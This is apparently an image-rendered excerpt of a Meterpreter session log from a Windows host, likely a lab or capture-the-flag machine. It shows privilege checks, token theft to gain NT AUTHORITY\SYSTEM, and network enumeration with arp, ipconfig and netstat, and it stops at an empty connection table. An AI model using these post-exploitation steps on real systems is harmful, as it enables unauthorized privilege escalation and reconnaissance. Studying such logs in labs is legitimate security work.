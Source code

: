 ```
SeImpersonatePrivilege
SeTcbPrivilege

meterpreter > getsid
Server SID: S-1-5-18

meterpreter > localtime
Local Date/Time: 2022-11-15 14:15:39.615 Pacific Standard Time (UTC-800)

meterpreter > steal_token 3960
Stolen token with username: NT AUTHORITY\SYSTEM

meterpreter > arp

ARP cache
=========

    IP address       MAC address        Interface
    ----------       -----------        ---------
    10.10.0.1        02:c8:85:b5:5a:aa  7
    10.10.255.255    ff:ff:ff:ff:ff:ff  7
    224.0.0.22       00:00:00:00:00:00  1
    224.0.0.22       01:00:5e:00:00:16  7
    224.0.0.251      01:00:5e:00:00:fb  7
    224.0.0.252      01:00:5e:00:00:fc  7
    255.255.255.255  ff:ff:ff:ff:ff:ff  7

meterpreter > getproxy
Auto-detect     : Yes
Auto config URL : 
Proxy URL       : 
Proxy Bypass    : 

meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface  7
============
Name         : AWS PV Network Device #0
Hardware MAC : 02:ff:ec:b4:34:2b
MTU          : 9001
IPv4 Address : 10.10.66.59
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::898e:c203:b99c:561f
IPv6 Netmask : ffff:ffff:ffff:ffff::

meterpreter > netstat

Connection list
===============

    Proto  Local address             Remote address  State        User  Inode  PID/Program name
    -----  -------------             --------------  -----        ----  -----  ----------------
```